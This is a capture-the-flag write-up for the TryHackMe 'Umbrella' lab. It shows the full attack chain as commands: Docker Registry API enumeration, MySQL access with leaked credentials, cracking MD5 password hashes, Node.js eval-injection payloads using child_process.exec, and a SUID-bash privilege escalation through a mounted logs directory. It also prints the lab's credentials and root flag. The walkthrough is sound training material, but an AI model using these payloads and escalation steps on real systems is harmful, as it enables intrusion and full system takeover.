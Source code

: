 # TryHackMe - Umbrella CTF Challenge Write-Up

## Overview
A comprehensive and high-level technical walkthrough of the TryHackMe - Umbrella CTF Challenge, targeting the IP `10.10.124.182`. This write-up details the steps taken for reconnaissance, exploitation, and privilege escalation.

### Initial Reconnaissance with Nmap
- **Nmap Scan Results:**
  Conducted an Nmap scan to identify open ports and services:
  - SSH (22/tcp)
  - MySQL (3306/tcp)
  - Docker Registry (5000/tcp)
  - Node.js with Express (8080/tcp)

  The scan revealed potential attack vectors through these services.

### Docker Registry Environment Variable Leakage
- **Extracting Environment Variables:**
  Used the Docker Registry API to leak environment variables. This step revealed crucial database credentials and the log file path.

  Commands used:
  ```bash
  curl -s http://10.10.124.182:5000/v2/_catalog
  curl -s http://10.10.124.182:5000/v2/umbrella/timetracking/manifests/latest
  ```

### Database Credential Exposure
- **Accessing the MySQL Database:**
  Successfully accessed the `timetracking` MySQL database using the leaked credentials. Extracted user data and hashed passwords.

  Command used:
  ```bash
	root@ip-10-10-166-207:~# mysql -h 10.10.124.182 -u root -p'Ng1-f3!Pe7-e5?Nf3xe5' timetracking -e 'SELECT * FROM users;'
	mysql: [Warning] Using a password on the command line interface can be insecure.
	+----------+----------------------------------+-------+
	| user     | pass                             | time  |
	+----------+----------------------------------+-------+
	| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
	| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
	| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
	| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
	+----------+----------------------------------+-------+
  ```

### Password Cracking
- **MD5 Hash Decryption:**
  Cracked the MD5 hashed passwords using crackstation.net, revealing plaintext passwords.

  ```
    claire-r:2ac9cb7dc02b3c0083eb70898e549b63:Password1
    chris-r:0d107d09f5bbe40cade3de5c71e9e9b7:letmein
    jill-v:d5c0607301ad5d5c1528962a83992ac8:sunshine
    barry-b:4a04890400b5d7bac101baace5d7e994:sandwich
  ```

### SSH Access
- **Gaining SSH Access:**
  Used the decrypted passwords to gain SSH access with user `claire-r`.

### Docker Container Logs Directory
- **Identifying Mounted Directory:**
  Found a mounted directory in the Docker container linked to a logs directory on the host.

  Docker configuration review:
  ```bash
    cat docker-compose.yml
  ```

  ```bash
    claire-r@ctf:~/timeTracker-src$ cat app.js | grep eval
	let timeCalc = parseInt(eval(request.body.time));
  ```

### Remote Code Execution
- **Exploiting Node.js Application:**
  Discovered a remote code execution vulnerability in the Node.js application through an `eval` statement in `app.js`.

  Command used for RCE:
  ```javascript
  require('child_process').exec("echo 'asdf2' > /logs/asdf.txt");
  ```

### Privilege Escalation
- **Escalating to Root:**
  Escalated privileges from the Docker container to root by manipulating file ownership and permissions.

  Privilege escalation steps:
  - Copied `/bin/bash` to the logs directory.
  - Changed ownership and set SUID bit to the copied `bash` executable.

  Commands used:
  ```bash
    # Via ssh
    claire-r@ctf:~/timeTracker-src/logs$ cp /bin/bash .

    # On the Node.js application
    require('child_process').exec("chown root:root /logs/bash");
    require('child_process').exec("chmod 4777 /logs/bash");

    # Via ssh
    claire-r@ctf:~/timeTracker-src/logs$ ./bash -p
    # 
  ```

### Final Outcome
- Successfully accessed the root directory and retrieved the root flag.

  Root flag extraction:
  ```bash
    # cat /root/root.txt
    THM{1e15fbe7978061c6bb1924124fd9eab2}
  ```

## Conclusion
This CTF challenge showcased a variety of skills, including network scanning, API exploitation, database access, password cracking, remote code execution, and privilege escalation. Each step was meticulously executed, leading to a successful compromise of the target system.